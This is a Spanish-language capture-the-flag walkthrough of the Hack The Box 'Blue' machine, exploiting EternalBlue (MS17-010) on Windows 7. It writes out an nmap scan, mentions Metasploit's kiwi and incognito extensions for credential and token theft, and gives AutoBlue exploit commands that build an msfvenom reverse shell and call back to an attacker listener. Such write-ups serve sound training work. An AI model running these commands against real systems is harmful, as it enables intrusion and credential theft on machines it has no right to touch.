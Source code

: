 # 3 - Blue \(win\_easy\)

```text
nmap -T4 -p- -A -sS 10.10.10.40
```

La gracia de este es explotar **ETERNAL BLUE** super famoso y permitie ejecutar codigo y ganar acceso en computadoras remotas.

![](../../.gitbook/assets/imagen%20%28511%29.png)

Cuando vemos esas versiones de windows 7 suena nuestra alarma hacker y decimos ETERNAL BLUE.

Primero checkeamos si esta para darle al eternal blue, no queremos dispararlo sin estar seguro de que existe en la maquina.

![](../../.gitbook/assets/imagen%20%28503%29.png)

![](../../.gitbook/assets/imagen%20%28512%29.png)

![Funciona a la primera](../../.gitbook/assets/imagen%20%28505%29.png)

Esta bien pero podemos mejorar la reverse shell

![](../../.gitbook/assets/imagen%20%28513%29.png)

Probemos con reverse tcp. 

## We are in

![](../../.gitbook/assets/imagen%20%28504%29.png)

Tiramos algunos para estudiar la red

```text
route print
arp -a
netstat -ano
```

### Usando kiwi

```text
meterpreter > load
(tira lista de extensiones)

meterpreter > load kiwi
```

![](../../.gitbook/assets/imagen%20%28508%29.png)

Otra extension muy buena es **incognito**.

![](../../.gitbook/assets/imagen%20%28509%29.png)

## Autoblue

{% embed url="https://github.com/3ndG4me/AutoBlue-MS17-010" %}

```text
 run python eternal_checker.py <TARGET-IP>
```

![](../../.gitbook/assets/imagen%20%28514%29.png)

```text
./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

![](../../.gitbook/assets/imagen%20%28506%29.png)

```text
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

```text
python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>
```

![](../../.gitbook/assets/imagen%20%28510%29.png)

Luego ganamos acceso.


